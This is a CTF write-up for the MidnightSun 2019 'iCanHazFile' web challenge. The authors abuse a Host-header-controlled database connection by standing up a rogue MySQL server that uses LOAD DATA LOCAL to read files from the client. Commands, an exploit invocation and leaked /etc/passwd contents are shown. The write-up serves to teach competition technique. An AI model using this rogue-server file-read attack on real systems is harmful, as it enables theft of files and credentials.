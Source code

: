 # MidnightSun CTF 2019 Finals 
## iCanHazFile - 1003 points

Author: @avlidienbrunn
Category: web pwned!
Solves: 6
Second Blood!

### Description

I forgot my login to this health care system. The swedish cough is the worst...
settings Service: http://icanhazfile-01.play.midnightsunctf.se:3002/

### Analysis

In the next challenge we find a Login panel. It only recognizes admin as a valid
user.

Analyzing the web we realize that changing the host header gives an error
connection to the database:

```GET /login HTTP/1.1```
```Host: icanhazfile-01.play.midnightsunctf.se:3002```

```GET /login HTTP/1.1```
```Host: 163.172.175.139```

```/app/app.py: could not connect to database```

We open a port in 3306 to see if we receive any connection and see that does not
connect, with Burp Collaborator we see that receives a DNS request, with the
subdomain: database.ip.com, create a subdomain and raise the port with nc.

```GET /login HTTP/1.1```
```Host: borjmz.com```

```root@midnightsun:~# nc -lvp 3306```
```listening on [any] 3306 ```
```connect to [10.64.180.121] from ... [52.208.15.104] 36136```

What we're trying to do is set up a MySQL server to see if it gives us back
information about the tables or something useful to continue with the
exploitation, seeing that we don't receive the data we need, we think about
other options, we find a writeup of the CTF Volga2018
(https://github.com/balsn/ctf_writeup/tree/master/20180324-volgactf)
where the same bug is exploited.

http://russiansecurity.expert/2016/04/20/mysql-connect-file-read/

We put a tcpdump to the listening and we receive the connection of the SQL:

```.... .... 1... .... = Can Use LOAD DATA LOCAL: Set```

```Client Capabilities: 0xa285```
```.... .... .... ...1 = Long Password: Set```
```.... .... .... ..0. = Found Rows: Not set```
```.... .... .... .1.. = Long Column Flags: Set```
```.... .... .... 0... = Connect With Database: Not set```
```.... .... ...0 .... = Don't Allow database.table.column: Not set```
```.... .... ..0. .... = Can use compression protocol: Not set```
```.... .... .0.. .... = ODBC Client: Not set```
```.... .... 1... .... = Can Use LOAD DATA LOCAL: Set```
```.... ...0 .... .... = Ignore Spaces before '(': Not set```
```.... ..1. .... .... = Speaks 4.1 protocol (new flag): Set```
```.... .0.. .... .... = Interactive Client: Not set```
```.... 0... .... .... = Switch to SSL after handshake: Not set```
```...0 .... .... .... = Ignore sigpipes: Not set```
```..1. .... .... .... = Knows about transactions: Set```
```.0.. .... .... .... = Speaks 4.1 protocol (old flag): Not set```
```1... .... .... .... = Can do 4.1 authentication: Set```

### Exploitation

We tested the balsn exploit and made some modifications.

```root@midnightsun:~# python3 mysql_exploit.py /etc/passwd```
```[+] Trying to bind to 0.0.0.0 on port 3306: Done```
```[+] Waiting for connections on 0.0.0.0:3306: Got connection from * on port 36150```

```b'\xb7\x00\x00\x01\x85\xa2\xbf\x01\x00\x00\x00\x01\x08\x00\x00\x00\x00\x00\x00```
```\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00root\x00\x14```
```\xc9!~\xc8\xd1t\xf3B\x17\x0c:\x99\x08\x89\x8f\xaf\x8a\xc3l?mysql_native_password```
```\x00f\x03_os\x05Linux\x0c_client_name\x08libmysql\x04_pid\x0525131\x0f```
```_client_version\x065.7.26\t_platform\x06x86_64\x0cprogram_name\x05mysql'```
```b'!\x00\x00\x00\x03select @@version_comment limit 1'```
```b'\xd7\x04\x00\x02```
```root:x:0:0:root:/root:/bin/bash\n```
```daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin\n```
```bin:x:2:2:bin:/bin:/usr/sbin/nologin\n```
```sys:x:3:3:sys:/dev:/usr/sbin/nologin\n```
```sync:x:4:65534:sync:/bin:/bin/sync\n```
```games:x:5:60:games:/usr/games:/usr/sbin/nologin\```
```nman:x:6:12:man:/var/cache/man:/usr/sbin/nologin\n```
```lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin\n```
```mail:x:8:8:mail:/var/mail:/usr/sbin/nologin\n```
```news:x:9:9:news:/var/spool/news:/usr/sbin/nologin\n```
```uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin\n```
```proxy:x:13:13:proxy:/bin:/usr/sbin/nologin\n```
```www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin\n```
```backup:x:34:34:backup:/var/backups:/usr/sbin/nologin\n```
```list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin\n```
```irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin\n```
```gnats:x:41:41:Gnats :/var/lib/gnats:/usr/sbin/nologin\n```
```nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin\n```
```systemd-timesync:x:100:102:,,,:/run/systemd:/bin/false\n```
```systemd-network:x:101:103::/run/systemd/netif:/bin/false\n```
```systemd-resolve:x:102:104::/run/systemd/resolve:/bin/false\n```
```systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false\n```
```_apt:x:104:65534::/nonexistent:/bin/false\n\x00\x00\x00\x03'```

```[*] Closed connection to 52.208.15.104 port 36150```

We receive the output of /etc/password, read /app/app.py to get the source code
of the web, we try to read the typical files of the system to get more
information and so it seems we are inside a chroot, after trying several files
without success we go back to the source code of the app and see the next line:

```
def database(host):
 host = shellquote(host)
 password = os.getenv('MYSQL_ROOT_PASSWORD')
 nonce = '.join(random.choice(string.ascii_lowercase) for i in range(10))
 cmd = "timeout 1 mysql -uroot -p"+password+" -h"+host+" -e
 'SELECT \""+nonce+"\" AS nonce, name, password from flag.users limit 1'" 
```

We set up a MySQL server with the necessary tables to bypass the admin and get
the flag.


Many thanks to all the [ID-10-T](https://twitter.com/id10t_ctf) team and especially to Uri, Javi, HansTopo and
Alfredo. Also to [@HackingForSoju](https://twitter.com/hackingforsoju) the organizers of the challenges

Challenge resolved by [Borjmz](https://twitter.com/qm9yamfn) and [HansTopo](https://twitter.com/_dreadlocked)

Borja
